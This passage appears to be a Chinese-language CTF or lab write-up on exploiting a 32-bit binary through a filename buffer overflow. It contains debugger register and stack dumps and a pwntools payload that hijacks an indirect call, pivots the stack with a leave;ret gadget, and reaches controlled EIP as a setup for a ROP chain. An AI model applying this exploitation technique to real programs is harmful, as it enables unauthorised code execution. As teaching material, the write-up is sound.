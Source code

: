 

所以可以看到我们的 edi值指向的是文件名中循环的一部分。这次，将ARAA值替换为无效的文件名地址。结果就是，我们尝试了几个不同的无效地址，都不会导致这样的崩溃。我们的有效地址存在于可写模块当中︰ 0x804af00 (在 Github win_3.py)。

这次，我们遇到了一次有趣的崩溃现象。



```
[----------------------REGISTERS-----------------------]
*EAX  0x41414141 ('AAAA')
 EBX  0xf7710000 &lt;-- 0x1a9da8
*ECX  0x706d742f ('/tmp')
*EDX  0x100
*EDI  0x1000
*ESI  0x804a0a0 (name) &lt;-- '/tmp/aaaabaaaca...'
*EBP  0x61616461 ('adaa')
*ESP  0xffc1a0f0 --&gt; 0x804a0a0 (name) &lt;-- '/tmp/aaaabaaaca...'
*EIP  0xf768da8d &lt;-- call   dword ptr [eax + 0x3c]
 [-------------------------CODE-------------------------]
  =&gt; 0xf768da8d    call   dword ptr [eax + 0x3c]
```



在我们控制 eax调用 [eax + 0x3c]时发生了崩溃。这意味着我们可以将 eax 设置为任何地址减去 0x3c（计算所得），并调用任何函数。值得一提的是，我们还控制了 ebp。这非常有趣，因为将 ebp 设置为任何我们控制的地址，并使用一个 leave; ret ROP小工具将我们的堆栈旋转到任何位置。(见 Github win_4.py)



```
leaveret = 0x80486f1
 
data = p32(leaveret)
 
data2 = 'c' * cyclic_find('aaca')
data2 += p32(0x04a0f000) # Use one of the next 0x08 bytes here for the address 0x0804a0f0 (some bytes into the filename)
data2 += 'x08' * (cyclic_find('ARAA', alphabet=string.ascii_uppercase) - 4 - len(data2))
data += data2
 
data += p32(0x804af00)      # 2) Some valid address to pass fclose
data += p32(0x804a0a5-0x3c) # 3) Address we will be calling at instruction call [eax + 0x3c]
data += cyclic(240-len(data), alphabet=string.ascii_uppercase)
filename = '/tmp/' + data
```



下面，我们为内存添加安装一个 ROP 链来进行完整的执行过程。<br>



```
[----------------------REGISTERS-----------------------]
...
*EBP  0x41414141 ('AAAA')
*ESP  0x804a0f8 (name+88) &lt;-- 'CAAADAAAEAAAFAA...'
EIP  0x41414142 ('BAAA')
[------------------------STACK-------------------------]
00:0000| esp  0x804a0f8 (name+88) &lt;-- 'CAAADAAAEAAAFAA...'
01:0004|      0x804a0fc (name+92) &lt;-- 'DAAAEAAAFAAAGAA...'
02:0008|      0x804a100 (name+96) &lt;-- 'EAAAFAAAGAAAHAA...'
03:000c|      0x804a104 (name+100) &lt;-- 'FAAAGAAAHAAAIAA...'
04:0010|      0x804a108 (name+104) &lt;-- 'GAAAHAAAIAAAJAA...'
05:0014|      0x804a10c (name+108) &lt;-- 'HAAAIAAAJAAAKAA...'
06:0018|      0x804a110 (name+112) &lt;-- 'IAAAJAAAKAAALAA...'
07:001c|      0x804a114 (name+116) &lt;-- 'JAAAKAAALAAAMAA...'
[----------------------BACKTRACE-----------------------]
&gt;  f 0 41414142
   f 1 41414143
   f 2 41414144
```